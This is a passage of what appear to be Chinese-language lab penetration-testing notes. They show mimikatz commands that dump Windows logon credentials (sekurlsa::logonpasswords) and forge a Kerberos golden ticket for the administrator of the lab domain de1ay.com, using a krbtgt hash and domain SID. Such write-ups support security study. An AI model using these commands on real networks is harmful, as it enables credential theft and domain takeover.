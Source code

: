 加载mimikatz，获取sid

shell

cd C:\\

mimikatz.exe

privilege::debug

sekurlsa::logonpasswords

![img](assets/1660657781893-6c61ef47-77eb-4b50-9b86-bf48ac7e7862.png)

在web上生成黄金票据

![img](assets/1660657983437-b81622a9-b3e5-44f8-910e-91ae9d28678c.png)

kerberos::golden /user:administrator /domain:de1ay.com /krbtgt:82dfc71b72a11ef37d663047bc2088fb /sid:S-1-5-21-2756371121-2868759905-3853650604 /ticket:gold.kirbi

![img](assets/1660659949391-181715d0-81d7-4ed7-a95a-ab221119d948.png)
